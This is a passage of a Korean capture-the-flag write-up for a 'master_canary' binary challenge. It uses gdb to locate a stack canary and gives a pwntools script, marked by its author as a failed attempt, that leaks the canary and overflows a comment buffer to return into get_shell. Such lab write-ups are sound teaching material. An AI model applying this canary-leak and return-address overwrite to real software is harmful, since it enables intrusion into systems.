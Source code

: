 <img width="1436" height="703" alt="image" src="https://github.com/user-attachments/assets/84e370e2-d6d9-45e8-8159-9347ec97db3a" />

main+336에 브레이크를 걸고, 바로 3번부터 확인해줬다.  

A를 32바이트 넣었더니 위 구조가 나왔다. 그리고 `leave_comment`는 1024 바이트를 읽으니까 뒤에 리턴 주소까지 쉽게 덮어낼 수 있을 것으로 보인다.    

- A*40 + canary + B*8 + get_shell

이렇게 덮으면 되겠다. 이제 카나리를 구하러 가보자.   

<br>

<img width="1383" height="916" alt="image" src="https://github.com/user-attachments/assets/e6cb3435-3fe7-4d32-bff2-0ab5226108bb" />

새로 gdb 를 열어주고,    
`read_bytes` 함수에 브레이크를 걸고 A를 입력했다. 그리고 A가 입력된 곳을 살펴보니, 카나리가 137바이트 떨어진 곳에 존재했다.     


바로 익스플로잇 코드를 짜보자.    


<br>

**익스플로잇 코드 (실패)**

```python
from pwn import *

p = process('./master_canary')
e = ELF('./master_canary')

getshell_addr = e.symbols['get_shell']

p.sendlineafter(b'> ', b'1')

p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'Size: ', b'137')
p.recvuntil(b'Data: ')

payload = b'A'*136 + b'B' 
p.send(payload)

p.recvuntil(b'B')
leaked = p.recv(7)
canary = u64(b'\x00' + leaked)

print('getshell addr : ',hex(getshell_addr))
print('canary : ', hex(canary))

p.sendlineafter(b'> ', b'3')

payload2 = b'A'*40
payload2 += p64(canary)
payload2 += b'B'*8
payload2 += p64(getshell_addr)

p.sendlineafter(b'comment: ', payload2)

p.interactive()

```
